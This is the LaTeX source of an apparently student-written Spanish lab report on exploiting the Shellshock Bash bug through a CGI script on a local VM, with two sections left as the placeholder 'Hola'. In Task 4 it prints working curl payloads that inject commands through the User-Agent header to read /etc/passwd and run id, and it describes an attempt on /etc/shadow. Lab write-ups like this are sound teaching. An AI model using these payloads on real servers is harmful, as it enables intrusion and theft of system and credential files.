\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[spanish]{babel}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{listings}
\usepackage[left=2cm,right=2cm,top=2cm,bottom=2cm]{geometry}

\begin{document}

\begin{titlepage}
\title{{\Huge Práctica 1 - Seguridad Informática}}
\author{Pedro Tamargo \and Juan José Tambo}
\date{\today}
\clearpage\maketitle
\thispagestyle{empty}
\tableofcontents
\end{titlepage}

\section{Tarea 1: Experimentar con las funciones en Bash}

Para esta sección se ha creado una función \texttt{foo} con código extra y se ha ejecutado el siguiente código:\\

\lstinputlisting{listings/ataque_shell.sh}

Tras la ejecución de este código podemos observar como el intérprete \emph{BASH\_{}SHELLSHOCK} es vulnerable (Figura \ref{fig:tarea1_shellshock}) ya que ha ejecutado el código extra de la función \texttt{foo}.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_1.png}
\caption{Intérprete afectado por el ataque \emph{shellshock}}
\label{fig:tarea1_shellshock} 
\end{figure}

Si repetimos el experimento utilizando el intérprete \emph{Bash} con la vulnerabilidad arreglada, se puede observar que al utilizar el código anterior no produce el mismo resultado que en el primer experimento (Figura \ref{fig:tarea1_bash_normal}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_1b.png}
\caption{Intérprete \textbf{NO} afectado por el ataque \emph{shellshock}}
\label{fig:tarea1_bash_normal} 
\end{figure}

\section{Tarea 2: Configuración de programas CGI}

Hola

\section{Tarea 3: pasar datos a Bash a través de las variables de entorno}

Para enviar un \emph{string} arbitrario al programa \emph{CGI} se ha utilizado el siguiente \emph{script}:\\

\lstinputlisting{listings/tarea3.cgi}

Este \emph{script} muestra todas las variables de entorno de los procesos ejecutados. Si accedemos a la dirección: \texttt{http://IP\_{}MV/cgi-bin/myprog2.cgi} se puede observar el resultado (Figura \ref{fig:tarea3_normal}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.6]{images/Tarea_3.png}
\caption{Resultado del acceso al programa cgi}
\label{fig:tarea3_normal} 
\end{figure}

Para modificar el código de una de las variables de entorno se va a utilizar la cabecera \emph{HTTP} \emph{User-Agent}. Esta cabecera se modificará mediante el siguiente comando:

\begin{lstlisting}
curl -A "Mi variable de entorno" http://192.168.56.106/cgi-bin/myprog2.cgi
\end{lstlisting}

Se puede observar que la respuesta del servidor contiene la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} pero con un valor distinto al ejemplo anterior (Figura \ref{fig:tarea3_modificado}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.9]{images/Tarea_3_modificada.png}
\caption{Respuesta del servidor con la variable de entorno \emph{HTTP\_{}USER\_{}AGENT} modificada}
\label{fig:tarea3_modificado} 
\end{figure}

\section{Tarea 4: Lanzamiento del Ataque Shellshock}

Para ejecutar un ataque \emph{shellshock} contra el servidor hay que utilizar lo explicado en el apartado anterior. Se va a proceder a inyectar código extra en la definición de una función utilizando la variable de entorno \emph{HTTP\_{}USER\_{}AGENT}.\\

Para robar el contenido de un fichero secreto del servidor se ha elegido el fichero \texttt{/etc/passwd} que no es visible para los usuarios externos al servidor (no hay forma de acceder a el vía \emph{HTTP}). Se va a utilizar el siguiente comando:

\begin{lstlisting}
curl -v \
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /bin/cat /etc/passwd;" \
http://192.168.56.106/cgi-bin/myprog.cgi
\end{lstlisting}

Tras esto observaremos que la respuesta del servidor es la reflejada en la Figura \ref{fig:tarea4_a}.

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{images/Tarea_4a.png}
\caption{Respuesta del servidor con el fichero \texttt{/etc/passwd}}
\label{fig:tarea4_a} 
\end{figure}

Para robar el contenido del fichero \texttt{/etc/shadow} se ha ejecutado el siguiente comando con objetivo de obtener información acerca del usuario que ejecuta el servidor web:

\begin{lstlisting}
curl -v \
-A "() { echo "HOLA"; }; echo Content-type: text/plain; echo; /usr/bin/id" \
http://192.168.56.106/cgi-bin/myprog.cgi
\end{lstlisting}

El resultado de este comando (Figura \ref{fig:tarea4_b}) indica que el usuario que ejecuta el servidor no es \emph{root} si no que es un usuario servicio \emph{www-data} y por lo tanto no seremos capaces de robar el contenido del fichero \texttt{/etc/shadow}. Si intentamos realizar un ataque \emph{shellshock} con un \texttt{cat} hacia este fichero el servidor nos devolverá una respuesta vacía, es decir, no se puede abrir el fichero \texttt{/etc/shadow} (Figura \ref{fig:tarea4_c}).

\begin{figure}[h!]
\centering

\includegraphics[scale=0.7]{images/Tarea_4b.png}
\caption{Respuesta del servidor con la información del usuario del servidor web}
\label{fig:tarea4_b} 
\end{figure}

\begin{figure}[h!]
\centering

\includegraphics[scale=0.5]{images/Tarea_4c.png}
\caption{Respuesta del servidor al intentar robar el contenido de \texttt{/etc/shadow}}
\label{fig:tarea4_c} 
\end{figure}

\section{Tarea 5: Obtención de un Shell inverso a través de un ataque Shellshock}

Hola



\end{document}